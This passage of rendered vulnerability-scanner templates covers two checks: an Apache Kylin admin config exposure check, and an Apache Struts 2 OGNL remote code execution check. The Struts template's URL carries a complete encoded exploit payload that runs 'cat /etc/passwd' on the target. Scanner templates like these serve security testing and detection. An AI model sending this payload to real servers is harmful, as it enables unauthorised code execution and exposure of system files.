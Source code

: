 ## Requests

- Method - GET

### URL

- {{BaseURL}}/kylin/api/admin/config

### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- words
  1. application/json
- part - header

**Type - word**

- words
  1. config
  2. kylin.metadata.url
- condition - and
- part - body

---

# Apache Struts 2.0.0-2.5.25 - Remote Code Execution

## Description

- Apache Struts 2.0.0 through Struts 2.5.25 is susceptible to remote code execution because forced OGNL evaluation, when evaluated on raw user input in tag attributes, may allow it.
- severity - critical
- tags - cve,cve2020,apache,rce,struts,kev,packetstorm

## Requests

- Method - GET

### URL

- {{BaseURL}}/?id=%25%7B%28%23instancemanager%3D%23application%5B%22org.apache.tomcat.InstanceManager%22%5D%29.%28%23stack%3D%23attr%5B%22com.opensymphony.xwork2.util.ValueStack.ValueStack%22%5D%29.%28%23bean%3D%23instancemanager.newInstance%28%22org.apache.commons.collections.BeanMap%22%29%29.%28%23bean.setBean%28%23stack%29%29.%28%23context%3D%23bean.get%28%22context%22%29%29.%28%23bean.setBean%28%23context%29%29.%28%23macc%3D%23bean.get%28%22memberAccess%22%29%29.%28%23bean.setBean%28%23macc%29%29.%28%23emptyset%3D%23instancemanager.newInstance%28%22java.util.HashSet%22%29%29.%28%23bean.put%28%22excludedClasses%22%2C%23emptyset%29%29.%28%23bean.put%28%22excludedPackageNames%22%2C%23emptyset%29%29.%28%23arglist%3D%23instancemanager.newInstance%28%22java.util.ArrayList%22%29%29.%28%23arglist.add%28%22cat+%2Fetc%2Fpasswd%22%29%29.%28%23execute%3D%23instancemanager.newInstance%28%22freemarker.template.utility.Execute%22%29%29.%28%23execute.exec%28%23arglist%29%29%7D
